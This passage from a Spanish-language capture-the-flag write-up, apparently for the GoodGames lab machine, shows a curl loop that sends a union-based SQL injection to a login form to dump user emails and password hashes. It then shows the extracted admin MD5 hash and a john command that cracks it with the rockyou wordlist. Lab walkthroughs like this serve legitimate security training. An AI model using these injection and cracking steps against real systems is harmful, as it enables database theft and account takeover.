 Se identifica las columnas: `email`, `id`, `name`, `password`

Se muestra la data final

Obtenemos la data, comando:

```bash
for i in $(seq 0 100); do echo "[+] Para el numero $i: $(curl -s -X POST http://10.10.11.130/login --data "email=test@test.com' union select 1,2,3,group_concat(name,0x3a,email,0x3a,password) from user limit $i,1-- -&password=1234" | grep -i "welcome" | sed 's/^ *//' | cut -d '>' -f 2 | cut -d ' ' -f 2 | awk '{print $1}' FS='<')"; done
```

Obteniendo:

![Untitled](/assets/img/GoodGames/Untitled33.png)

Como se visualiza solo existe una data que en esta caso corresponde al admin

- admin:admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec

Debemos romper la contraseña ya que se encuentra en formato MD5, se lo hará a través `jhon`

## Hash Cracking with Jhon

Se guarda el hash en un archivo y se sabe que es MD5 porque tiene una longitud de 32 caracteres y también lo validamos con `hash-identifier`

![Untitled](/assets/img/GoodGames/Untitled34.png)

Rompiendo el hash a traves de `jhon`

Comando: `john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash`

![Untitled](/assets/img/GoodGames/Untitled35.png)
